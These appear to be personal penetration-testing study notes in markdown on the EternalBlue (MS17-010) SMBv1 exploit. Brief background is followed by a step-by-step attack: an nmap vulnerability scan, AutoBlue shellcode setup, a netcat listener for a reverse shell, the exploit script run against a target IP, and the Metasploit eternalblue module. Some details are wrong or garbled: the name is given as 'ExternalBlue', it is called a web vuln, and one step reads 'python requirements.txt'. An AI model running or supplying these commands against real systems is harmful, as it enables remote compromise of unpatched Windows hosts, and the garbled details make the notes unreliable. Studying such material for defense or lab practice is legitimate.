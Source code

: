 
#### ExternalBlue 
	- Name of collection of web vulns and exploits 
	- Develpoed b the NSA 
	- Takes advantage of he SMBv1 protocol to execute arbitrary commands

#### ExternalBlue Exploit
	- Used in the wannacry ransomware 
	- Affects Windows Vista, 7, Server 2008, Windows 8.1, Windows Server 2012, Windows 10, Windows Server 2016
	- Patched in 2017
	- Some are still vulnerable to this exploit
	- Can be used to give privileged meterpreter session
	- 

#### Tools 
autoblue-ms17-010
git 
nc

#### Commands

Verify that target is vulnerable to eternal blue
```
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 target_ip
```

```
git clone autoblue
python requirements.txt
./shell_prep.sh

```

Netcat port 1234
```
nc -nvlp 1234
```

```
pyhton eternalblue_exploit7.py target_ip shellcode/sc_x64.bin
```

Enternal Blue exploit in Windows
```
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS target_ip
exploit
```